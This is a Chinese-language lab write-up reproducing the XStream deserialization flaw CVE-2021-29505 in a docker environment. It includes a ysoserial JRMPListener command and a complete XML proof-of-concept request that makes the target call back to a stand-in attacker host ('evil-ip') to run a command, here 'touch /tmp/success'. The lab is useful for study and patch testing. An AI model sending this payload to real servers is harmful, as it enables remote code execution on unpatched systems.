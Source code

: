 # XStream 反序列化命令执行漏洞（CVE-2021-29505）

XStream是一个轻量级、简单易用的开源Java类库，它主要用于将对象序列化成XML（JSON）或反序列化为对象。

XStream 在解析XML文本时使用黑名单机制来防御反序列化漏洞，但是其 1.4.16 及之前版本黑名单存在缺陷，攻击者可利用`sun.rmi.registry.RegistryImpl_Stub`构造RMI请求，进而执行任意命令。

参考链接：

- [https://x-stream.github.io/CVE-2021-29505.html][1]
- https://paper.seebug.org/1543/

## 漏洞环境

执行如下命令启动一个Springboot + XStream 1.4.16的环境：

```
docker compose up -d
```

环境启动后，我们向`http://your-ip:8080`发送一个正常的XML数据包，将会得到预期返回：

![](1.png)

## 漏洞复现

作为攻击者，我们在自己的服务器上使用[ysoserial](https://github.com/frohoff/ysoserial)的JRMPListener启动一个恶意的RMI Registry：

```
java -cp ysoserial-master-SNAPSHOT.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections6 "touch /tmp/success"
```

这个RMI Registry在收到请求后，会返回用CommonsCollections6利用链构造的恶意序列化对象。

然后，我们向目标服务器发送CVE-2021-29505的XML POC：

```
POST / HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/xml
Content-Length: 3169

<java.util.PriorityQueue serialization='custom'>
    <unserializable-parents/>
    <java.util.PriorityQueue>
        <default>
            <size>2</size>
        </default>
        <int>3</int>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.org.apache.xpath.internal.objects.XString'>
                <m__obj class='string'>com.sun.xml.internal.ws.api.message.Packet@2002fc1d Content</m__obj>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.xml.internal.ws.api.message.Packet' serialization='custom'>
                <message class='com.sun.xml.internal.ws.message.saaj.SAAJMessage'>
                    <parsedMessage>true</parsedMessage>
                    <soapVersion>SOAP_11</soapVersion>
                    <bodyParts/>
                    <sm class='com.sun.xml.internal.messaging.saaj.soap.ver1_1.Message1_1Impl'>
                        <attachmentsInitialized>false</attachmentsInitialized>
                        <nullIter class='com.sun.org.apache.xml.internal.security.keys.storage.implementations.KeyStoreResolver$KeyStoreIterator'>
                            <aliases class='com.sun.jndi.toolkit.dir.LazySearchEnumerationImpl'>
                                <candidates class='com.sun.jndi.rmi.registry.BindingEnumeration'>
                                    <names>
                                        <string>aa</string>
                                        <string>aa</string>
                                    </names>
                                    <ctx>
                                        <environment/>
                                        <registry class='sun.rmi.registry.RegistryImpl_Stub' serialization='custom'>
                                            <java.rmi.server.RemoteObject>
                                                <string>UnicastRef</string>
                                                <string>evil-ip</string>
                                                <int>1099</int>
                                                <long>0</long>
                                                <int>0</int>
                                                <long>0</long>
                                                <short>0</short>
                                                <boolean>false</boolean>
                                            </java.rmi.server.RemoteObject>
                                        </registry>
                                        <host>evil-ip</host>
                                        <port>1099</port>
                                    </ctx>
                                </candidates>
                            </aliases>
                        </nullIter>
                    </sm>
                </message>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
    </java.util.PriorityQueue>
</java.util.PriorityQueue>
```

其中，evil-ip是恶意RMI服务器的地址。恶意RMI服务器收到RMI请求：

![](2.png)

进入目标容器内，可见``touch /tmp/success``已成功执行：

![](3.png)

值得注意的是，我们没有直接使用[官网][1]给出的POC，那个POC是错的。

[1]: https://x-stream.github.io/CVE-2021-29505.html
